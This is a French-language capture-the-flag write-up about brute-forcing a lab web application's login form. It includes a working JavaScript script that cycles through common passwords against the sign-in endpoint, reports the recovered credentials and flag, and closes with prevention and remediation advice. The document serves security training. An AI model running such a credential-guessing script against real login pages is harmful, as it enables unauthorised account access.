

# Exploitation par Brute-Force sur Formulaire de Connexion

## 1. Introduction
Dans cette exploitation, j'ai utilisé une **attaque par brute-force** pour accéder à une zone protégée via le formulaire de connexion de l'application. En testant une liste de mots de passe communs, j'ai pu trouver le mot de passe correct et obtenir le **flag**.

## 2. Découverte de la faille
En explorant la page de connexion :
```bash
http://10.211.55.2/index.php?page=signin
```

J'ai remarqué qu'il n'y avait pas de mécanisme de protection contre les tentatives répétées de connexion (pas de captcha, pas de limitation de tentatives, ni de délai). Cela permet de tester plusieurs mots de passe sans restriction.

## 3. Exploitation par Brute-Force
J'ai utilisé le script suivant dans la console du navigateur pour automatiser le test de mots de passe communs :

```js
// Liste de mots de passe communs à tester
const passwords = [
    'admin', 'password', '123456', 'shadow', 'root',
    'pass', 'letmein', 'qwerty', 'test', 'admin123'
];

async function tryLogin(password) {
    try {
        const response = await fetch(`index.php?page=signin&username=admin&password=${password}&Login=Login`);
        const text = await response.text();
        
        // Vérifie si la réponse ne contient pas l'image d'erreur
        if (!text.includes('WrongAnswer.gif')) {
            console.log(`✅ Succès! Mot de passe trouvé: ${password}`);
            return true;
        }
        console.log(`❌ Échec avec: ${password}`);
        return false;
    } catch (error) {
        console.log(`⚠️ Erreur avec: ${password}`);
        return false;
    }
}

// Fonction pour tester tous les mots de passe avec un délai
async function testPasswords() {
    for (const password of passwords) {
        await new Promise(resolve => setTimeout(resolve, 500)); // Délai de 500ms entre chaque tentative
        if (await tryLogin(password)) {
            break;
        }
    }
}

// Lancer les tests
testPasswords();
```

### Résultat de l'attaque

Le script a trouvé le mot de passe suivant :
```bash
admin / shadow
```


## 4. Obtention du Flag

En utilisant les identifiants trouvés, j'ai accédé à l'interface protégée et obtenu le flag :
```bash
B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2
```



## 5. Impact de la faille

Cette faille permet à un attaquant de :

- Accéder à des zones protégées en utilisant un mot de passe faible et commun.
- Contourner l'authentification sans avoir besoin de compétences avancées.
- Récupérer des informations sensibles comme le flag ou d'autres données confidentielles.

## 6. Comment prévenir cette faille

Pour éviter cette vulnérabilité :

- Implémenter une limitation de tentatives : Bloquer l'utilisateur après un certain nombre de tentatives infructueuses.
- Utiliser un CAPTCHA pour éviter l'automatisation des tentatives de connexion.
- Imposer des règles de complexité des mots de passe pour éviter les mots de passe communs (minimum 8 caractères avec des majuscules, minuscules, chiffres et symboles).
- Activer l'authentification à deux facteurs (2FA) pour une sécurité renforcée.

## 7. Comment corriger la faille

Pour corriger cette faille :

- Ajouter un délai après chaque tentative de connexion échouée.
- Enregistrer les tentatives de connexion dans un journal pour détecter les attaques par brute-force.
- Utiliser bcrypt pour le hachage des mots de passe afin de ralentir les attaques.

## 8. Conclusion

J'ai exploité une faille due à l'absence de protection contre les tentatives répétées de connexion, combinée à l'utilisation d'un mot de passe faible et commun. Cela démontre l'importance de :

- Protéger les formulaires de connexion avec des mécanismes anti-brute-force.
- Utiliser des mots de passe sécurisés et complexes.
- Mettre en place une surveillance active pour détecter et prévenir les attaques.